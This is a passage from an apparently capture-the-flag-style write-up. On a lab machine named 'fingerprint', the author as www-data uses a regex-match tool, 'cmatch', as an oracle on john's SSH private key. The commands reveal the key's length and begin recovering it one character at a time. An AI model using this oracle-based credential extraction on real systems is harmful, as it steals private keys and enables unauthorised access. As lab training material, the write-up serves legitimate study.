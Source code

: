 #### Find SSH Key

The first thing I wanted to look for is john’s private key. It’s there:

```

www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa a
Found matches: 19

```

I can confirm it’s got the typical format:

```

www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----'
Found matches: 2
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN'
Found matches: 1

```

The file has 1766 characters:

```

www-data@fingerprint:/dev/shm$ cmatch /home/john/.ssh/id_rsa '(.|\n)'
Found matches: 1766

```

#### Manual Brute SSH Key

I can start by using `^` to look at the start of a line, and start building a string from there one character at a time.

I can show the first line is 21 bytes long:

```

www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{20}'
Found matches: 1
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{30}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{25}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{22}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}'
Found matches: 1

```

Then I can add a newline, and keep looking:

```

www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n'
Found matches: 1
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.'
Found matches: 1

```
